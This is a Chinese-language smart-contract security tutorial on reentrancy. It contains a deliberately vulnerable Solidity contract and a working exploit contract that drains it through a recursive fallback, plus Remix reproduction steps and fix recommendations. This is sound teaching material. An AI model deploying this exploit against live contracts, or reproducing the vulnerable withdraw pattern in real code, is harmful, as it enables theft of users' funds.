 # 01.Reentrancy - 重入

## 漏洞等级
**高危**

## 漏洞成因
`重入攻击`, 也可以说是`递归调用`漏洞。`漏洞合约`的`漏洞函数`对`恶意合约`发起调用后，`恶意合约`再次发次对`漏洞合约`的`漏洞函数`的调用，如果`恶意合约`被允许调用`漏洞函数`且调用成功也就发生了`重入`。
通常漏洞由合约发起`<Address>.call.value()()`发送ether到`外部合约`,从而触发`外部合约`的`回退函数` - [fallback()](http://solidity.readthedocs.io/en/v0.4.21/contracts.html#fallback-function)`导致的。
> 合约接收ether的时候会触发fallback()
>
> 合约被调用函数不存在,也会fallback())

## 漏洞危害
由于`漏洞函数`执行过程调用`不可信合约`或者使用`具有外部地址`的`低级函数`,`漏洞合约`的`合约状态`被改变,`漏洞函数`的`运行结果`也将`不可信`。以`The DAO`事件为例,攻击者的恶意的递归调用使`The DAO`损失了`350万ETH`,也导致了以太坊的分叉。

## 漏洞测试方法

### 测试环境
推荐并尽量使用 `Remix - Solidity IDE` 进行复现
(部分漏洞使用`truffle`本地搭建环境进行补充复现)

[Remix - Solidity IDE](http://remix.ethereum.org/#optimize=false&version=soljson-v0.4.24+commit.e67f0147.js)

### 编译合约

将以下两个合约直接复制粘贴到 Remix 的代码框中

#### 被攻击合约:

**Reentrance**
```
pragma solidity ^0.4.15;

contract Reentrance {
    mapping (address => uint) userBalance;
   
    // 返回地址u的余额
    function getBalance(address u) constant returns(uint){
        return userBalance[u];
    }

	// 对合约充值ether
    function addToBalance() payable{
        userBalance[msg.sender] += msg.value;
    }   
	
    // 从合约取款
    function withdrawBalance(){
        // 发送 userBalance[msg.sender] ethers 到 msg.sender
        // 如果 mgs.sender 是一个合约, 这将会触发 msg.sender 地址上的合约的回退函数 fallback()
        if( ! (msg.sender.call.value(userBalance[msg.sender])() ) ){
            throw;
        }
        // 取款完成后将 userBalance[msg.sender] 归零
        userBalance[msg.sender] = 0;
    }   
   
}

```
#### 攻击者合约:
**ReentranceExploit**
```
contract ReentranceExploit {
    // 被攻击合约的地址
    address public vulnerable_contract;
    // 当前合约的拥有者
    address public owner;

    function ReentranceExploit() public{
    	// 合约拥有者为合约创建者
        owner = msg.sender;
    }

    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract ;
        // 发送 msg.value ethers 到 vulnerable_contract.addToBalance()
        // 使当前攻击者合约在被攻击合约中有余额 即 vulnerable_contract.userBalance[msg.sender] > 0
        // vulnerable_contract.userBalance[msg.sender] 就是攻击者每次递归调用偷取的ether(wei)量
        require(vulnerable_contract.call.value(msg.value)(bytes4(sha3("addToBalance()"))));
    }

    function launch_attack() public{
        // 调用 vulnerable_contract.withdrawBalance
        // withdrawBalance calls the fallback of ReentranceExploit
        require(vulnerable_contract.call(bytes4(sha3("withdrawBalance()"))));
    }  


    function () public payable{
        // 当本合约发起攻击后,vulnerable_contract 会发送ether到本合约从而触发本合约回退函数fallback()
        // 本合约fallback() 中会再次调用 vulnerable_contract.withdrawBalance() 进行取现
        // 由于 vulnerable_contract 先进行发送ether后修改userBalance[msg.sender
        // 此时 vulnerable_contract.userBalance[msg.sender] 会一直不变
        // 从而每次调用会从vulnerable_contract合约中取出userBalance[msg.sender] (wei) ether
        // 直到将vulnerable_contract 的 ether 取空(剩余量小于vulnerable_contract.userBalance[msg.sender] (wei))
        vulnerable_contract.call(bytes4(sha3("withdrawBalance()")));
    }

    function get_money(){
    	// 执行 suicide 自毁函数,将当前攻击者合约销毁
        // 并且将攻击者合约中的ether全部发送到owner账户中
        suicide(owner);
    }

}

```

![](images/20180620004742367.png)

### 切换到 `run` 面板
1. 点击 `deploy` 按钮部署 `Reentrance` 合约

![](images/20180620005003918.png)

2. 修改Value为 `50` ,单位为 `ether`
点击 `addToBalance` 给 `Reentrance` 合约进行充值ether,

![](images/20180620005459925.png)


3. 切换到Account 2:`0x14723a09acff6d2a60dcdf7aa4aff308fddc160c`,选择`ReentranceExploit`,点击 `Deploy`

![](images/20180620005722236.png)

4. 修改`Value` 为 `10` ether,然后复制 `Reentrance` 合约地址,粘贴到 `ReentranceExploit`的`deposit`参数框中,
点击`deposit`按钮进行充值ether到`Reentrance`合约

![](images/20180620005922476.png)

5. 点击 `launch_attack` 按钮进行攻击

6. 点击 `get_money` 按钮进行销毁攻击者合约,并且返回ether到owner账户,
可以看到Account 2增加了`50` ether

![](images/20180620010604810.png)






## 修复建议

1. 最好避免使用`<Address>.call.value()()`这种形式发送ether,建议使用更安全的`<Address>.transfer()`

>推荐使用`<Address>.transfer()`而不是`<Address>.send()`,`<Address>.send()`在发送是失败的时候只会返回`false`,
>而`<Address>.transfer()`则会抛出异常,引发evm操作回滚,更为安全。

示例代码:

```    
function withdrawBalance(){
	// send() 和 transfer() 都可以防止重入
	// 他们在调用时不会发送所有的gas,(仅发送2300gas)
	// 这样调用函数部分只能执行很少的操作
	// 从而使fallback()函数不能完整执行
	msg.sender.transfer(userBalance[msg.sender]);
	userBalance[msg.sender] = 0;
}  

```

2. 可以采取先扣除余额再发送ether的形式(不是非常建议,除非合约必须使用`<Address>.call.value()()`这种形式,否则都采取上面的建议)

示例代码:
```
function withdrawBalance(){
    uint amount = userBalance[msg.sender];
    userBalance[msg.sender] = 0;
    if( ! (msg.sender.call.value(amount)() ) ){
        throw;
    }
}   
```

> 参考:
>
>[DASP - TOP 10](
https://www.dasp.co/)
>
>[github:not-so-smart-contracts/reentrancy](
https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)
>
>[以太坊智能合约安全入门了解一下（上）](
http://rickgray.me/2018/05/17/ethereum-smart-contracts-vulnerabilites-review/)

Contact me: ***root@blockchain-security.info***